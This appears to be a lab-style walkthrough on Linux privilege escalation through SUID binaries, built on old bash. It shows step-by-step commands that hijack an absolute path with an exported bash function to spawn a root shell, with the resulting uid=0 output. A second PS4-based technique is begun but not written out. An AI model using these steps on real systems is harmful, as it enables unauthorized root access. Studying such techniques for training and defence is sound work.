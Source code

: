


**` SUID / SGID Executables - Abusing Shell Features (#1)`**

[+] bypass absolute path: vulnerability in bash <4.2.048 <br>
[+] technique:  overwrite absolute path  by creating function which name look like absolute path<br>


[+] steps<br>

- run strings to look for 

```bash
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```

- check bash version 

```bash
user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
```

- create  function and export it  to overwrite real absolute path when binary run.

```bash
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service
```

- run binary

```bash
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```



**` SUID / SGID Executables - Abusing Shell Features (#2)`**

[+] technique : by exploit debugging environment variable `PS4` <br>

